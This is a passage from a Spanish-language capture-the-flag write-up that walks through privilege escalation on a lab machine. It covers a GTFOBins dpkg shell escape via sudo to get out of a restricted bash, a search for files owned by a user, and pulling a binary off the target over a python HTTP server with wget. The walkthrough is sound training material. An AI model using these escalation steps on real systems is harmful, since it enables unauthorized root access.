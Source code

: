 Luego vamos a `/home/maci/.time_seri`, abrimos el archivo `time.conf` y ponemos `serial=on`.

Finalmente ejecutamos:

```python
sudo -u maci /bin/python3 /home/maci/.time_seri/time.py
```

![image](https://github.com/user-attachments/assets/3fa5d4b0-e1a2-4104-b7a9-b2219e824acc)

### darksblack

Siendo el usuaro maci, ejecutamos `sudo -l`:

![image](https://github.com/user-attachments/assets/c44272e7-e6cd-4c29-9a1e-d1d92b505545)

Podemos ejecutar `dpkg`. Buscamos en [gtfobins](https://gtfobins.github.io/):

![image](https://github.com/user-attachments/assets/1d997682-8510-4010-99e3-33d2268e2f31)

Ejecutamos `sudo -u darksblack dpkg -l` y dentro del editor `!bash`. Pero nos da una restricted bash. Así que dentro del editor ejecutamos `!sh`:

![image](https://github.com/user-attachments/assets/38814ae6-147d-4364-a830-41d9d17002e1)

### root

En `/home/darksblack` vemos un archivo llamado `Olympus`. Probamos a ejecutarlo y se puede, pero nos pide una serial que no sabemos.

Probamos a listar archivos que pertenezcan al usuario darksblack:

```python
find / -user darksblack 2>/dev/null | grep -v proc
```

![image](https://github.com/user-attachments/assets/bcff8bf5-44e2-443b-bf6e-b86ad4e57628)

Vemos un archivo llamado `OlympusValidator`. Vamos a `/home/darksblack/.zprofile` y montamos un servidor HTTP con python3:

```python
python3 -m http.server 8000
```

Y en local lo descargamos:

```python
wget http://172.17.0.2:8000/OlympusValidator
```

Lo ejecutamos:

![image](https://github.com/user-attachments/assets/0cf0bbcb-bf21-489f-bdf3-f59ff84e2955)

Nos pide directamente la serial. Ponemos cualquier cosa:

![image](https://github.com/user-attachments/assets/c6163c7c-c929-4fab-8e85-b18cc3b2de42)
